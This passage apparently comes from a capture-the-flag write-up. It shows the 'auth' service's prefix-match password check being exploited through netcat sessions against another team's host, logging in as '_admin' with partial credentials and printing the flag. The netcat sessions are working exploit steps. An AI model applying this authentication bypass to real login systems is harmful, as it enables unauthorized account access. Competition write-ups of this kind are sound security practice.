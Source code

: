 The line `FUN_0804880c("_admin",__ptr,1);` creates `_admin` with flag as password.

So if we can bruteforce the attack to check the letters a-z and numbers 0-9 we can find the first letter(or number) of the flag and login.


## Testing the Prefix Match on Other Teams 

Let's check if `auth g g` actually works on the
other teams:
```bash
auth@team05:/opt/services/auth$ nc 10.219.255.30 8000
Welcome! You can authenticate to the account "guest" with the password "guest"
To create an account with a hidden username, begin your username with ""
Available commands:
    list - list the available accounts
    create [name] [password] - create a new account
    auth [name] [password] - login to an account
    flag - print the flag (only for admins)
    quit - exit the program
Enter your command:
(not logged in) > auth g g
Authenticated as "guest"
Enter your command:
(guest) > list
Accounts:
    0: guest
    1: hidden
Enter your command:
```

That's promising.

```bash
auth@team05:/opt/services/auth$ nc 10.219.255.30 8000
Welcome! You can authenticate to the account "guest" with the password "guest"
To create an account with a hidden username, begin your username with ""
Available commands:
    list - list the available accounts
    create [name] [password] - create a new account
    auth [name] [password] - login to an account
    flag - print the flag (only for admins)
    quit - exit the program
Enter your command:
(not logged in) > auth 1 
Couldn't authenticate.
Enter your command:
(not logged in) > auth _ 1
Authenticated as "_admin"
Enter your command:
(_admin) > flag
Here is the flag: 1625e15ac40b1a45e23f9514602b70195796986e46500cc80db7438fdebda9fa
Enter your command:
```
